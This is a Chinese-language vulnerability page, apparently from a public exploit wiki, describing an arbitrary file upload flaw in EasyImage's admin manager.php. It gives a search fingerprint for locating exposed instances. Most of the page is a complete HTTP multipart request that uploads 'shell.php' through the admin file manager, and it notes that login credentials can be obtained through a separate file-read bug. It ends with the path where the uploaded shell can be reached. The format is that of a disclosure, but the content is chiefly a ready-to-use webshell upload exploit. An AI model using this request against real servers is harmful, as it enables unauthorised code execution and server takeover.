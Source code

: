 # EasyImage manager.php 后台任意文件上传漏洞

## 漏洞描述

EasyImage manager.php 存在任意文件上传漏洞，攻击者通过漏洞可以上传恶意文件到服务器获取服务器权限

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1678874513039-c454fc7f-e231-4417-b7a9-ebadfa12d0ba-20230406183127512.png)

登陆后台后发送POC (通过任意文件读取获取账号密码)

```plain
POST /admin/manager.php?p= HTTP/1.1
Host: 
Accept: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: no-cache
Content-Length: 1622
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEUCF9Yq83AkaO6sv
Cookie: Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680341989; auth=a%3A2%3A%7Bi%3A0%3Bs%3A7%3A%22tossone%22%3Bi%3A1%3Bs%3A32%3A%22590368bca375c2f8fe93df7d253481e8%22%3B%7D; Hm_lpvt_c790ac2bdc2f385757ecd0183206108d=1680342144; filemanager=sdeemhj3b9aeoretftrlijjh25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36

------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzuuid"

7e4fad9a-3545-4ed6-b655-b3e3a6b2978c
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkindex"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalfilesize"

583
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunksize"

10000000
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dztotalchunkcount"

1
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="dzchunkbyteoffset"

0
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="p"


------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="fullpath"

shell.php
------WebKitFormBoundaryEUCF9Yq83AkaO6sv
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

234

------WebKitFormBoundaryEUCF9Yq83AkaO6sv--
```

![img](/assets/PeiQi-Wiki/img/1680344820983-7383f2b8-c760-4a7e-952f-6c4ff7617027.png)

上传访问地址为 

```plain
/i/shell.php
```